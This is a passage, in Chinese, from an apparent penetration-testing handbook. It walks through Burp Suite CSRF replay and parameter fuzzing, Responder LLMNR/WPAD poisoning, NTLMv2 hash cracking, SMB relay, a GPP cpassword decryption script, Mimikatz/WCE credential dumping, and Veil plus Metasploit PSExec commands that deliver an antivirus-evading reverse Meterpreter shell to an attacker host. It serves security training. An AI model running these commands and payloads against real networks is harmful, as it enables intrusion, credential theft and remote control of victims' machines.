

**图 47 - Burp CSRF 示例**

为了验证这一点，我们实际上可以尝试重放该请求。我通常尝试这种方法，因为它能立即告诉我是否可以在不执行任何额外操作的情况下重放请求。

如果你在 Raw Request（原始请求）的任意位置右键单击，会看到一个选项“Send to Repeater”（发送到 Repeater）。



**图 48 - 发送到 Burp 的 Repeater**

在 Repeater 选项卡中，按下 Go 按钮将重放请求，随后的响应将被填充。在我们的例子中，结果是金额再次被转走，而无需验证用户是否真想发起此请求。这很关键，因为你可以将同一个链接发送给该银行的每个用户，Frank 就会瞬间成为百万富翁。



**图 49 - 执行 Burp Repeater**

应用程序不应该允许用户在未经历创建转账请求所需的所有步骤的情况下再次转账。如果没有 CSRF 令牌，毫无戒心的受害者点击一个链接就可能导致未经授权的转账。如果你想了解更多关于 CSRF 攻击的信息，请访问 OWASP 页面：[`www.owasp.org/index.php/Cross-Site_Request_Forgery_(CSRF`](https://www.owasp.org/index.php/Cross-Site_Request_Forgery_\(CSRF\))。


会话令牌通常用于跟踪会话，因为 HTTP 协议默认是无状态的。你需要在会话令牌中寻找的是：(1) 它们无法被猜测，以及 (2) 它们能正确跟踪用户。其他你应该关注的方面包括：会话令牌何时过期、它们是否安全、是否验证输入，以及是否被正确使用。

在本节中，我们将专门研究如何确保会话令牌经过适当的随机化且无法被猜测。使用 Burp Suite 捕获认证过程，我们可以在响应中看到会话令牌有一个 `set-cookie` 值。这位于“Proxy”选项卡下的“History”子选项卡中。



**图 50 - Burp 的原始响应**

我们可以在原始响应部分右键单击，并将此请求发送到 Sequencer 功能。


**图 51 - 将原始请求发送到 Sequencer**

点击“Send to Sequencer”后，切换到 Sequencer 选项卡，确定哪些会话令牌对你很重要。选定令牌后，你可以点击 *Start live capture*（开始实时捕获）以开始生成会话令牌。


**图 52 - 选择会话令牌**

开始捕获后，会弹出一个新窗口并开始处理/生成令牌。生成足够多的令牌后，它会给你提供熵（随机性）摘要、字符级分析（见下图）和位级分析。在下图中，Burp Suite 正在分析每个字符的位置。Burp 的 Sequencer 工具中还有许多其他功能，我建议花些时间去了解会话令牌是如何生成的。


**图 53 - Cookie 的字符位置**

这里留给你自己判断，因为这需要足够的经验来判断会话 Cookie 何时是安全的，何时不是。我见过的每个主要 Web 应用程序都使用不同类型的实现和算法来生成会话令牌，因此可能需要运行上述示例或审查源代码。


Burp Suite 具有极强的扩展性，还有许多其他功能。在手动测试中，我发现一个非常有用的快速功能是 Intruder 功能。在 Intruder 功能中，你可以篡改请求的任何部分并提供自己的数据。如果你想提供自己的模糊测试输入来测试变量，这将非常有用。

我们将演示一个非常高层级的概述，说明如何使用模糊测试功能。以下示例的基本思路是：以一个在线商店为例，看看参数模糊测试为何极具益处。它们可能只从网站链接到特定商品，但内容管理员可能已经上传了下周所有的促销商品。他们只是等到下周，再从主网站首页链接这些内容。

我过去经常在举办“黑色星期五”促销的网站上看到这类问题。它们托管了所有内容，但页面上没有任何链接指向这些内容。大多数情况下，它们还列出了尚未公开的产品价格。通过暴力破解所有参数，攻击者可以在公众获悉之前，提前知道下周将有哪些商品促销。

我创建了一个演示网站来演示这个确切的问题。网站 `www.securepla.net/tehc/hack.php?id=2` 有一个名为 `id` 的 GET 参数。你可以将此 ID 字段从 1 改为 2 再改为 3，从而获得不同的结果。


**图 54 - 暴力破解参数**


## 使用 Burp Suite Intruder 暴力破解参数

我们想要遍历所有不同的参数值，以查看哪些页面存在、哪些页面不存在。由于我们的流量已经流经 Burp，我们可以转到 **Proxy（代理）** 选项卡，然后进入 **History（历史记录）** 选项卡。你将在那里看到所有过去的请求。右键点击最后那个请求，然后点击 **Send to Intruder（发送到 Intruder）**。


**图 55 - 发送请求到 Intruder**

顶部菜单栏的 **Intruder（入侵者）** 选项卡会亮起，点击该 **Intruder** 选项卡。移动到 **Positions（位置）** 选项卡，你会看到一堆高亮的文本。既然我这次只测试一个参数，我会先点击 **Clear（清除）** 按钮，仅高亮 `2` 这个值（因为它是我想要模糊测试的唯一值），然后点击右侧的 **Add（添加）** 按钮（图 56）。这会指示 Burp 仅对输入到 `ID` GET 参数中的值进行模糊测试，该参数现在会变为黄色。

还有一个配置选项是 **Attack type（攻击类型）**。在这种情况下，我保留默认类型 **Sniper（狙击手）**。你应该花一点时间查看一下 Burp Suite 网站上各种不同的攻击类型：<http://portswigger.net/burp/help/intruder_positions.html>。


**图 56 - Burp 载荷位置**

移动到 **Payloads（载荷）** 选项卡（仍在 **Intruder** 选项卡内），点击 **Load（加载）** 按钮。在这种情况下，我仅加载一个 1-100 的数字列表，但你可以添加任何列表。如果我知道参数需要根据我交互的内容进行操作（可能是数据库或 LDAP 查询），我会导入那些模糊测试参数的列表。这完全取决于你来确定应该对哪些类型的测试进行模糊测试。从我们的设置阶段来看，你应该在 Kali 机器的 `/opt/SecLists/` 下拥有一个很棒的模糊测试列表。


**图 57 - Burp 列表**

一旦导入列表，你需要启动 Intruder 攻击。在顶部菜单栏，转到 **Intruder** > **Start attack（开始攻击）**。开始攻击后，一个新的 **Intruder Attack（Intruder 攻击）** 窗口将弹出，Burp 将开始尝试所有参数请求。


**图 58 - 在 Burp Suite 中开始暴力破解**


**图 59 - Burp Suite 结果**

随着请求开始填充，如何判断网站是否因参数注入而有所不同？嗯，最简单的方法是通过注入该字符串时页面源代码的长度。如果源代码长度与标准基线不同，这表明页面发生了变化。

如果我们查看上述测试的结果，会看到从我们注入的参数值 5 到 26，页面内容长度均为 509。这个 509 的源长度现在是我们测试的基线。如果我们检查所有长度不为 509 的页面响应，会发现请求 27，长度为 456，给出了密码：`dont hack me`（见上图）。

你也可以尝试操纵原始请求中的任何内容。尝试测试 Cookie 值、`GET`/`POST`/`HEAD` 参数、User-Agent 字符串以及其他可能存在漏洞的字段。


## 功能测试的重要性

我想强调测试应用程序时的一个额外方面。既然本书只是提供 Web 应用程序测试的高层视角，功能测试才是你真正体现价值的地方。当我说功能测试时，我将其视为水平/垂直用户权限测试、应用程序流程测试，以及确保事物按预期工作。例如：

*   测试用户无法查看其他用户的敏感数据。
*   普通用户无法访问管理页面。
*   用户无法更改其他用户的数据值。
*   工作流无法在其预期流程之外被修改。
*   如果你有兴趣了解更多，可以访问 <https://www.owasp.org/index.php/Web_Application_Penetration_Testing>。

这是成功的测试人员花费大部分时间的地方。任何人都可以运行扫描，但如果你是一名高效且有效的手动测试人员，你就远超常规水平。


## 网络渗透测试概述

在网络层面的渗透测试中，时间就是一切。你需要对底层基础设施、应用程序和可能的漏洞有扎实的理解。本章应该帮助你了解漏洞的高层概览、如何识别它们，以及如果不解决这些漏洞可能产生什么类型的影响。

Web 漏洞很可能是你在外部渗透测试中识别出的最常见漏洞。你现在应该能够演示如何以简单快捷的方式利用这些问题。


## 横向移动与权限提升

当你似乎无法向前推进时，会使用横向传球战术。你可能已经在网络内，但如果没有权限或账户凭据，通常会被困在一台主机上。作为测试人员，当你能够在网络中移动并获得域管理员账户访问权限时，你就开始脱颖而出。作为渗透测试人员，我强调的一点是，这不应该是你的唯一目标。识别敏感数据存储位置并获得对这些环境的访问权限同样重要。这可能需要通过关键员工进行跳板，并了解公司如何对其数据进行分段。

本节将专注于在网络中移动，并尝试从受限用户一路发展到完全控制整个网络。我们将涵盖无凭据起步、通过主机代理、拥有有限域凭据，以及拥有本地/域凭据等主题。


### 无凭据起步

假设你在网络上，但还没有任何凭据。也许你破解了他们的 WPAv2 Personal Wi-Fi 密码，或者攻破了一台未加入域的主机。我可能会首先开启 `tcpdump` 进行被动监听，识别网络，寻找域控制器，并进行其他被动类型的攻击。一旦我觉得对本地网络有了了解，我将开始使用接下来几节中指定的各种攻击来攻陷系统。


#### Responder.py (Kali Linux)

帮助我获得第一组凭据的工具之一叫做 `responder.py`。Responder 是最早监听并响应 **LLMNR**（链路本地多播名称解析）和 **NBT-NS**（基于 TCP/IP 的 NetBIOS 名称服务）的工具之一。

Responder 主动利用的另一个漏洞是 **WPAD** 漏洞。你可以在此处阅读 Technet 文章了解更多：MS12-074 - 解决 WPAD PAC 文件处理中的漏洞 (<http://blogs.technet.com/b/srd/archive/2012/11/13/ms12-074-addressing-a-vulnerability-in-wpad-s-pac-file-handling.aspx>)。基本原理是，当浏览器（IE 或网络 LAN 设置）设置为自动检测设置时，受害主机将尝试从网络获取配置文件。


**图 60 - 自动检测设置**

作为攻击者，既然我们与受害者在同一网络上，我们可以响应名称解析请求并注入我们自己的 PAC 文件，从而代理所有 Web 流量。这样我们还可以强制用户针对我们的 SMB 服务器进行身份验证。你可能会问，“这为什么很重要”？如果我们能让受害主机针对我们的 SMB 服务器进行身份验证，我们就可以在不提醒受害者任何配置错误的情况下，请求其 NTLM 质询/响应哈希。如果用户已经过域身份验证，他们将尝试使用那些缓存的凭据来针对我们的服务器进行身份验证。


## Responder 工具使用与权限提升

如果你想查看 Responder 的所有命令并阅读其文档，请访问 [`github.com/SpiderLabs/Responder`](https://github.com/SpiderLabs/Responder)。如果你一直在跟随设置阶段，我们应该已经安装了 Responder，现在让我们直接开始。

在下面的示例中，我们使用几个不同的标志启动 Responder。首先，`-i` 标志用于指定你主机的 IP，`-b` 标志设为 Off 以禁用 NTLM 身份验证，而 `-r` 设为 Off 是因为开启它可能会破坏网络上的事物：

```bash
python ./Responder.py -i [Attacker IP] -b Off -r Off -w On
```


**图 61 - Responder.py**

Responder 开始运行后，你应该给它几分钟时间来识别请求并发送恶意响应。下面展示了正在进行的攻击。


**图 62 - Responder Results**

`Responder.py` 运行后发生了很多事情。首先，我们看到 `192.168.0.2` 的 LLMNR 被投毒，且一个恶意的 WPAD 文件被发送给受害者。这现在意味着他们所有的 Web 流量都将使用我们的攻击者机器作为代理。这也意味着任何明文内容对我们都是可见的。其次，我们看到我们现在正在追踪用户访问的任何网站的 Cookie。如果他们在认证后通过 HTTP 访问网站，我们现在可以冒充他们的用户，因为我们拥有他们所有的 Cookie。最后，也是最重要的，我们通过注入攻击看到了 NTLM 质询/响应哈希。

不过，我们在处理这些哈希时确实有几个问题。我们无法立即在任何传递哈希类型的攻击中使用这些哈希，因为这些是 NTLM 质询/响应哈希。我们可以对这些哈希做的是利用 `John the Ripper` 或 `oclHashcat`。

### John 示例

```bash
$ cat hashes.txt

cheetz::FAKEDOMAIN:1122334455667788:4D8AABB385ADC35D8ABF778E9852BC27:010100000000000000B1E1E8D4E3CE017DD523628DB503860000000001001400530045005200560045005200320030003000380002000A0073006D0062003100320003002C0053004500520056004500520032003000300038002E0073006D006200310032002E006C006F00630061006C000400160073006D006200310032002E006C006F00630061006C000500160073006D006200310032002E006C006F00630061006C0006000400020000000900200063006900660073002F003100390032002E003100360038002E0031002E0033000A001000000000000000000000000000000000000000000000000000

$ john --format=netntlmv2 hashes.txt

Loaded 1 password hash (NTLMv2 C/R MD4 HMAC-MD5 [32/32])

password (cheetz)
```

### oclHashcat 示例

```bash
cudaHashcat-plus64.exe -m 5600 hashes.txt password_file.txt
```

这两个密码破解示例将引入密码破解部分，但想让你快速体会一下 Responder 的强大之处。

有时尝试破解密码并不值得。如果你知道他们有复杂的密码策略，或者没有足够多的在线用户来获取多个哈希，你可能也想尝试 SMB 重放攻击。与在 Responder 中启用 SMB 服务器不同，如果受害者允许 NTLMv1 身份验证，你可以启用 Metasploit 的 `smb_replay` 模块 (`use exploit/windows/smb/smb_replay`)。这意味着现在任何 SMB 请求都将被转发到你选择的服务器，并且它们的质询哈希将针对该服务器进行身份验证。假设你能对 IT 管理员执行此操作，他们很有可能在你识别出的服务器上拥有提升的权限。

如果你确实不得不走这条路，我建议你观看 Rob Fuller 的视频 [`www.youtube.com/watch?v=05W5tUG7z2M`](https://www.youtube.com/watch?v=05W5tUG7z2M)。他讨论了使用 `ZachAttack` 来帮助管理所有 NTLM 会话并持续攻陷网络。

我遇到的一个问题是，如果最终用户或服务器配置为仅允许 NTLMv2 连接，这些工具将会失败。我成功进行 NTLMv2 身份验证的 SMB 重放攻击的唯一方法是使用 `Impacket` 框架。你可以在这里下载副本：[`code.google.com/p/impacket/`](http://code.google.com/p/impacket/)。

我最初是在 [`pen-test-ing.sans.org/blog/pen-testing/2013/04/25/smb-relay-demystified-and-ntlmv2-pwnage-with-python`](http://pen-test-ing.sans.org/blog/pen-testing/2013/04/25/smb-relay-demystified-and-ntlmv2-pwnage-with-python) 找到 `Impacket` 的配置的，该文章详细介绍了如何设置所有这些。我不会深入太多细节，因为你可以访问 SANS 网站获取更多详情，但你可以创建一个 Meterpreter 可执行文件并运行 Python 脚本。


**图 63 - smbrelayx.py**

一旦你接收到一个 SMB 连接，它将针对另一台服务器重放该 SMB 并投放/执行反向 Meterpreter 二进制文件。我们稍后将在规避 AV 部分讨论创建反向 Shell。


### Active Directory 上的权限提升

本节假设你位于连接到 Active Directory 域的主机上。你可能不是域管理员，但在网络上拥有某些权限。这里的希望是能够将你的权限从普通域用户提升为管理域/本地用户。让我们回顾一些可能有助于将你的账户提升为域管理员账户的攻击。


你在网络中攻破了一台有权访问域的主机，但你可能只是一个普通的非特权用户，而非管理员。这是查看是否可以利用组策略首选项漏洞的绝佳时机。让我们退一步描述一下组策略首选项 (GPP)。GPP 是 Active Directory 的扩展，是与组策略对象 (GPO) 一起使用的可配置设置。

这是一个强大的功能，可以让系统管理员的生活轻松得多，通过在整个环境中部署 GPO 设置。其中一项功能的问题在于，你可以创建/更新域内所有主机上的本地管理员账户。为什么有人会使用此功能？可能是因为他们想在每台主机上推送一个新的管理本地用户，或更新每台机器上的本地账户密码（这比你想象的更常见）。一旦配置了此设置并更新了 GPO，所有工作站现在都将拥有此账户。问题在于，这些信息（本地管理员账户的用户名/密码）必须存储在某处，而在 GPP 的情况下，它们存储在域中，任何 AD 用户账户均可读取。

通过 GPP 推送的所有账户的详细信息将存储在 `\\\[Domain Controller]\SYSVOL\[Domain]\Policies` 下。你只需在此文件夹内搜索 `Groups.xml` 文件。如果你能找到其中一个文件，可以查看 `Groups.xml` 文件中的 `cpassword` 哈希。它看起来会像这样：

```xml
<Properties action="U" userDSN="0" dsn="test" driver="SQL Server" description="test data source" username="testusername" cpassword="AzVJmXh/J9KrU5n0czX1uBPLSUjzFE8j7dOltPD8tLk" />
```

`cpassword` 变量的问题是密码使用 AES 加密。幸运的是，Microsoft 也公开发布了对称 AES 密钥。此密钥对于任何域上的任何环境都是相同的。


**图 64 - Microsoft’s AES Key**[⁷]

既然我们有了加密密钥，就可以解密 GPP 中本地管理员账户的密码。有许多不同的工具可以做到这一点，但这里提供了一个用于反向解密加密密码的 Python 脚本。我们稍后将讨论如何使用 PowerShell 执行此操作，但因为我不喜欢针对特定工具，这里提供一种完成任务的简单方法。

```python
#!/usr/bin/env python

## Code from http://pastebin.com/TE3fvhEh[⁸]

## Gpprefdecrypt - 解密通过 Windows 2008 组策略首选项添加的本地用户密码。此工具解密存储在域控制器 Sysvol 共享中的 Groups.xml 文件中嵌入的 cpassword 属性值。

import sys

from Crypto.Cipher import AES

from base64 import b64decode

if(len(sys.argv) != 2):
    print "Usage: gpprefdecrypt.py <cpassword>"
    sys.exit(0)
```


## 初始化密钥

来自 MSDN：[`msdn.microsoft.com/en-us/library/2c15cbf0-f086-4c74-8b70-1f2fa45dd4be%28v=PROT.13%29#endNote2`](http://msdn.microsoft.com/en-us/#fbid=UVOac95R90O)

```python
key = """
4e 99 06 e8 fc b6 6c c9 fa f4 93 10 62 0f fe e8
f4 96 e8 06 cc 05 79 90 20 9b 09 a4 33 b6 6c 1b
""".replace(" ","").replace("\n","").decode('hex')

cpassword = sys.argv[1]
cpassword += "=" * ((4 - len(sys.argv[1]) % 4) % 4)
password = b64decode(cpassword)  # 向 base64 字符串添加填充并解码
o = AES.new(key, AES.MODE_CBC).decrypt(password)  # 解密密码
print o[:-ord(o[-1])].decode('utf16')  # 打印结果
```

开箱即用，这段 Python 代码在 Backtrack 5 中运行良好，尽管我在 Kali 中运行它时遇到过问题。运行 Python 脚本并输入加密密码后，脚本会将其解密为明文。无论密码多长或多复杂，因为我们拥有解密密钥，所以都能解密。上面的示例如下所示：

```
root@bt:~/Desktop# ./Gpprefdecrypt.py "AzVJmXh/  
J9KrU5n0czX1uBPLSUjzFE8j7dOltPD8tLk"
testpassword
```

无论密码多复杂，结果都是即时的。整个过程也可以通过 PowerShell 完成（详见下文 PowerShell 部分），使用以下脚本：[`raw.github.com/mattifestation/PowerSploit/master/Exfiltration/Get-GPPPassword.ps1`](http://raw.github.com/mattifestation/PowerSploit/master/Exfiltration/Get-GPPPassword.ps1)。

为了使其更强大，现在也可以通过 Metasploit 中的后利用模块来完成：

*   `use post/windows/gather/credentials/gpp`

虽然我没见过所有公司都使用 GPP 将账户推送到其终端主机，但这仍是一种常见做法。如果你确实获得了域账户的访问权限，这应该是你首先要检查的事情之一。

你现在应该拥有一个本地管理员账户，这可能会让你获得对网络上每台主机的访问权限。下一步合乎逻辑的做法是使用类似 `PSExec` 的工具，像 PSExec 部分演示的那样，开始攻击网络上的所有其他主机。


有时，你可能身处一台主机上，但不想花时间破解密码，或部署键盘记录器来捕获密码。有两个工具你应随时备在后兜里：`Windows Credential Editor (WCE)` 和 `Mimikatz`。这两个工具都会尝试检索存储在内存中的明文密码。请注意，这两个工具都需要提升的权限。

## WCE - Windows 凭据编辑器

[`www.ampliasecurity.com/research/wcefaq.html`](http://www.ampliasecurity.com/research/wcefaq.html) (Windows)

我们都用过 Metasploit 和传递哈希，但我们真正追求的是密码……WCE 就是答案。

> "Windows 凭据编辑器 (WCE) 是一款安全工具，允许列出 Windows 登录会话，并添加、更改、列出和删除相关联的凭据（例如：LM/NT 哈希、Kerberos 票据和明文密码)。"

在本书撰写时，你可以从 [`www.ampliasecurity.com/research/wce_v1_41beta_universal.zip`](http://www.ampliasecurity.com/research/wce_v1_41beta_universal.zip) 下载最新的 WCE 二进制文件，但我们应该已经在搭建你的攻击机部分获取了它。

为什么 WCE 如此强大？在下面的示例中，我使用的两个命令是 `wce -l` 和 `wce -w`。`-l` 开关用于列出登录会话和 NTLM 凭据（哈希值），`-w` 开关用于转储摘要身份验证包存储的明文密码。这意味着如果你拥有管理凭据，就可以从内存中获取该用户的密码，而无需花费任何时间破解哈希。这能节省大量时间……让我演示一下它是如何工作的。


*图 65 - Windows 凭据编辑器 (WCE)*

在关于规避杀毒软件的特别小组部分，我将讨论如何让 WCE 可执行文件避开杀毒软件的检测。

## Mimikatz

[`blog.gentilkiwi.com/mimikatz`](http://blog.gentilkiwi.com/mimikatz) (Windows)

`Mimikatz` 是另一款类似于 WCE 的工具，可从 `LSASS` 中恢复明文密码。我经常被问到哪个工具更好，但我总是建议人们不要钻牛角尖。你总会遇到这样的环境：某个工具或技术不起作用，或者杀毒软件查杀了其中一个工具但没查杀另一个。在这种情况下，确保你总有备选方案或另一条迂回路径来让你的漏洞利用生效，变得非常重要。

在后面的章节中，我将向你展示如何在内存中运行 Mimikatz，这样你就不必在目标主机上释放任何可执行文件，但对于这个基础示例，我将通过主机上的二进制可执行文件向你展示 Mimikatz 的强大功能。

在受害者主机上运行可执行文件会将你带入一个类似 Mimikatz 的 shell。从 LSASS 提取明文密码的命令是：

*   `privilege::debug`
*   `sekurlsa::logonPasswords full`


*图 66 - Mimikatz*

同样，无论他们的密码多长，你甚至不必担心哈希值。你现在可以获取这些用户名/密码，尝试登录所有其他主机，甚至如果是特权账户，还可以尝试登录域控制器。


我想专门开辟一个章节来介绍后利用技巧。假设你拿下了一台 Linux 盒子或一台 Windows 主机，你想找些什么？我开始整理一份清单，但后来发现了来自 Rob Fuller (Mubix) 和 [room362.com](http://room362.com) 的一份非常全面的清单。

### 来自 Room362.com 的后利用清单

*   Linux/Unix/BSD 后利用：[`bit.ly/pqJxA5`](http://bit.ly/pqJxA5)
*   Windows 后利用：[`bit.ly/1em7gvG`](http://bit.ly/1em7gvG)
*   OSX 后利用：[`bit.ly/1kVTIMf`](http://bit.ly/1kVTIMf)
*   生僻系统的后利用：[`bit.ly/1eR3cbz`](http://bit.ly/1eR3cbz)
*   Metasploit 后利用：[`bit.ly/JpJ1TR`](http://bit.ly/JpJ1TR)

这些是在攻陷系统后应寻找的事项的非常全面的清单。其中包括获取系统配置、用户信息，甚至掩盖踪迹的命令。我无法过分强调理解攻陷系统后要寻找的事项有多重要。这是大多数脚本小子失败的地方，也是专业渗透测试人员持续横向移动网络的地方。


希望通过前一章，你已经获得了一个在所有用户机器上都有效的本地管理员账户，甚至可能是一个域管理员账户。利用你新发现的凭据，接下来可以采取哪些步骤？本节专门讲述如何持续控制网络。


`PSExec` 是我最喜欢的工具之一，它允许你使用凭据远程执行程序和代码。该工具令人印象深刻之处在于，PSExec 既接受用户名/密码，也接受用户名/密码哈希。

我将介绍一旦进入网络后攻陷系统的完整示例。这是我用来利用系统和绕过杀毒软件的相同流程。

开始之前，我们需要创建载荷。因为我想确保不触发任何杀毒系统，我将使用 Veil 创建一个混淆的载荷。你可以在规避杀毒软件部分阅读更多关于 Veil 的信息。

## PSExec 和 Veil (Kali Linux)

在开始向网络上的所有用户推送可执行文件之前，我需要创建一个既能规避杀毒软件，又能保留 Meterpreter 完整功能的载荷。为此，我将使用 Veil 来创建载荷。

进入你的 `/opt/Veil` 文件夹并执行 Python 脚本：

*   `cd /opt/Veil`


## Veil Payload 生成与 Metasploit 集成

### Veil Payload 生成

#### 初始设置
运行 `./Veil.py` 启动 Veil。

在本例中，我们将使用 `MeterHTTPSContained` payload，输入以下命令选择：
*   `use 20`


#### 配置监听器
与 Metasploit 类似，我们需要设置 `LHOST` 和 `LPORT`。本例中攻击机 IP 为 `192.168.75.131`，`LPORT` 设为 `443`（模拟 SSL 流量）。

*   `set LHOST 192.168.75.131`
*   `set LPORT 443`

#### 生成 Payload
配置完成后，输入以下命令生成 payload：
*   `generate`


#### 选择编译器
使用默认的 `pyinstaller` 进行编译：


生成的可执行文件位于 `/root/veil-output/compiled/` 目录下。

### Metasploit 配置与 PSExec 攻击

现在我们已拥有一个可绕过 AV 的 payload，接下来配置 Metasploit。启动 `msfconsole` 后，使用 `PSExec` 模块。设置 exploit、payload、`LHOST`、`LPORT`（需与 Veil 生成的 payload 一致）、`SMBUser`、`SMBPass`、`SMBDomain` 和 `RHOST` 等标准选项。关键区别在于使用 `set EXE::Custom` 指定 Veil 生成的自定义 payload。

完整命令序列如下：

*   `msfconsole`
*   `use exploit/windows/smb/psexec`
*   `set PAYLOAD windows/meterpreter/reverse_https`
*   `set LHOST [IP of My Box]`
*   `set LPORT 443`
*   `set SMBUser TestAccount`
*   `set SMBPass MyPassword`
*   `set SMBDomain fakeDomain`
*   `set EXE::Custom /root/veil-output/compiled/updater12.exe`
*   `set RHOST [IP of Remote Host]`
*   `exploit`


执行 `exploit` 后，PSExec 将登录受害主机并执行自定义 payload。


获得 Meterpreter 会话后，使用以下命令进行交互：
*   `sessions -i [session number]`

### Mimikatz 凭证导出

#### 进程迁移
回顾上一节提到的在内存中运行 Mimikatz。若目标为 64 位系统，必须先迁移至 64 位进程，因为只有 64 位进程才能从 64 位系统内存中读取明文密码。32 位系统虽可迁移但非必须。

使用 `ps` 列出进程，使用 `migrate [pid]` 进行迁移。下例中识别出运行中的 64 位 `Notepad` 进程并迁移至该进程。

*   `ps`
*   `migrate [pid of a x86_64 process]`

#### 权限提升
执行上述命令前可能需要 `SYSTEM` 权限。使用以下命令尝试提权：
*   `getsystem`
*   若被拒绝且为本地管理员，请参考绕过 UAC 章节。

#### 导出凭证
成功迁移并以 `SYSTEM` 权限运行后，加载 Mimikatz 并执行 `kerberos`（或 `wdigest`）命令以获取当前登录用户的明文密码。

*   `kerberos`
*   `wdigest`


现获得另一组可用的账号密码。除 Mimikatz 外，Metasploit 还有其他后渗透模块值得关注，如 `Incognito` ([`www.offensive-security.com/metasploit-unleashed/Fun_With_Incognito`](http://www.offensive-security.com/metasploit-unleashed/Fun_With_Incognito)) 和 `Smart_HashDump` ([`www.darkoperator.com/blog/2011/5/19/metasploit-post-module-smart_hashdump.html`](http://www.darkoperator.com/blog/2011/5/19/metasploit-post-module-smart_hashdump.html))，但目前的访问权限已足够。

### PSExec 批量命令执行 (Kali Linux)

拥有本地管理员或域管理员凭证后，有时无需完全控制每台主机，只需在其上执行命令。常见批量执行命令示例：

